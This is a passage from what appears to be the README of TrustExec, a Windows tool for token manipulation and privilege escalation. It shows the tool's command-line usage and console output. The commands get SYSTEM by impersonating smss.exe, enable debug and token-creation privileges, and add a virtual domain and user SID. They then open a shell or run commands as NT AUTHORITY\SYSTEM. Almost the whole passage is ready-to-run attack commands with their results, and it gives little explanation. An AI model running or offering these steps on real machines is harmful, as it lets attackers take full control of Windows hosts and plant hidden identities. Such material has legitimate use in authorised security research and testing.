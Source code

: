 ```
[!] Added virtual domain and user are not removed automatically.
    |-> To remove added virtual user SID   : TrustExec.exe -m sid -r -d DefaultDomain -u DefaultUser
    |-> To remove added virtual domain SID : TrustExec.exe -m sid -r -d DefaultDomain
```

You can change domain name and username, use `-d` option and `-u` option.
To change domain RID, use `-i` option as follows:

```
C:\dev>TrustExec.exe -m exec -s -d VirtualDomain -u VirtualAdmin -i 92 -t 1

[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[+] SeIncreaseQuotaPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 3612
[+] Impersonation is successful.
[>] Trying to generate token group information.
[>] Trying to add virtual domain and user.
    |-> Domain   : VirtualDomain (SID : S-1-5-92)
    |-> Username : VirtualAdmin (SID : S-1-5-92-110)
[+] Added virtual domain and user.
[>] Trying to logon as VirtualDomain\VirtualAdmin.
[>] Trying to create a token assigned process.

Microsoft Windows [Version 10.0.18362.30]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\dev>whoami /user

USER INFORMATION
----------------

User Name                  SID
========================== ============
virtualdomain\virtualadmin S-1-5-92-110
```

If you want to execute single command, use `-c` option without `-s` flag as follows:

```
C:\dev>TrustExec.exe -m exec -c "whoami /user & whoami /priv"

[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeCreateTokenPrivilege is enabled successfully.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 1464
[+] Impersonation is successful.
[>] Trying to create an elevated primary token.
[+] An elevated primary token is created successfully.
[>] Trying to create a token assigned process.


USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
```
